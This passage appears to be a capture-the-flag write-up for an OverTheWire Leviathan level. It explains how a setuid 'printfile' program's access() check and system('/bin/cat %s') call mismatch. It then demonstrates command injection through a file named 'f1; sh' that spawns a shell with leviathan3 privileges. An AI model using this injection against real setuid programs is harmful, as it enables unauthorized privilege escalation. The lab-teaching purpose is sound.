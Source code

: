 		or 
	
			$ /bin/cat "f1 f2"
	
	* Check this out:
	
			leviathan2@leviathan:/tmp$ cat f1
			This is f1
			leviathan2@leviathan:/tmp$ cat f2
			This is f2
			leviathan2@leviathan:/tmp$ cat f1 f2
			This is f1
			This is f2
			leviathan2@leviathan:/tmp$ cat "f1 f2"
			This is f1 f2
			leviathan2@leviathan:/tmp$ cat f1\ f2
			This is f1 f2
			leviathan2@leviathan:/tmp$ 

* Coming back the question:
	* **access()** checks permissions for **f1\ f2**, but **/bin/cat** is opening 2 entirely different files. 
	* Ideally, the **one file** whose permissions are checked should be opened by /bin/cat. But here, 2 different files are getting opened. 
	* This opening of 2 files is something that was **not intended** of the program. So, This is definitely a **bug**. Let us see if this is a **vulnerability** . 

* Let us see how it can be exploited to get the password.

* Observe this carefully:

		$ cat f1; echo "This is the trick"

	* The above is a very common trick, if you want 2 commands to be executed one after the other, use a **;** . First **cat f1** is executed, and then **echo** is executed. 

* system(str) : 
	
	* str = "/bin/cat %s"
	
	* Suppose I give %s = **f1; echo "This is the trick"** , then str = **"/bin/cat f1; echo "This is the trick"**. So, as we saw above, first **/bin/cat f1** gets executed, and then **echo** . 
	
	* Here, the **echo** command represents **any** arbitrary command right? We can give any command instead of echo and it peacefully gets executed. 
	
	* Now, I will be able to execute any command, with higher privileges(here, privileges of **leviathan3**).  
	
* Obviously, if we are able to execute any command, then I would execute **/bin/sh** first and get a shell. Then, I can do whatever I want with that.

* Look at the exploit: 

		leviathan2@leviathan:/tmp$ id
		uid=12002(leviathan2) gid=12002(leviathan2) groups=12002(leviathan2)
		leviathan2@leviathan:/tmp$ 
		leviathan2@leviathan:/tmp$ touch f1
		leviathan2@leviathan:/tmp$ echo "This is f1" > f1
		leviathan2@leviathan:/tmp$ 
		leviathan2@leviathan:/tmp$ touch "f1; sh"
		leviathan2@leviathan:/tmp$   
		leviathan2@leviathan:/tmp$ ~/printfile "f1; sh"
		This is f1
		$ 
		$ 
		$ id
		uid=12003(leviathan3) gid=12002(leviathan2) groups=12002(leviathan2)
		$ 
		$ whoami
		leviathan3